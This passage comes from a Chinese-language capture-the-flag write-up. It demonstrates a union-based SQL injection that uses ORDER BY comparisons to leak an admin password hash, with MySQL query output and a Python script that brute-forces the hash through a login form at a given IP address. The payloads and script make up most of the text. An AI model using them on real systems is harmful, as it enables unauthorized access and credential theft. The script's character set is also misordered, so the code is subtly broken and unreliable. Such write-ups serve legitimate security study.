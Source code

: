 ```
+----+----------+----------------------------------+
2 rows in set (0.00 sec)
```

最后对末尾字符进行判断

```
mysql&gt; select * from test.test0 union select 1,2,'bfe42ac26e273ef3a859a651e0a02df0' order by 3,2;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | 2        | bfe42ac26e273ef3a859a651e0a02df0 |
|  1 | admin    | bfe42ac26e273ef3a859a651e0a02df0 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)

mysql&gt; select * from test.test0 union select 1,2,'bfe42ac26e273ef3a859a651e0a02df1' order by 3,2;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | bfe42ac26e273ef3a859a651e0a02df0 |
|  1 | 2        | bfe42ac26e273ef3a859a651e0a02df1 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)
```

在判断末尾最后一个字符的时候`order by 3,2`中第二列判断就该起作用了

通过上述本地模拟数据的测试，现在编写脚本来对该网站进行注入读取敏感数据

```
import requests
url='http://101.201.126.95:7006'
string='0123456789abcdefghijkmnlopqrstuvwxyz' #密码字段，大小写字母无所谓
flag=''
for i in range(300):
    for a in string:
        payload="admin' union select 1,'2','"+flag+str(a)+"' order by 3,2#"
        data=`{`"username":payload, "password":1, "submit":"enter"`}`
        result=requests.post(url=url,data=data).text
        if 'admin' in result:
            flag+=string[string.index(a)-1]
            print(flag)
            break
```

注入结果

[![](https://p1.ssl.qhimg.com/t01e73d9e60a233c3f7.png)](https://p1.ssl.qhimg.com/t01e73d9e60a233c3f7.png)

解密密码得到flag
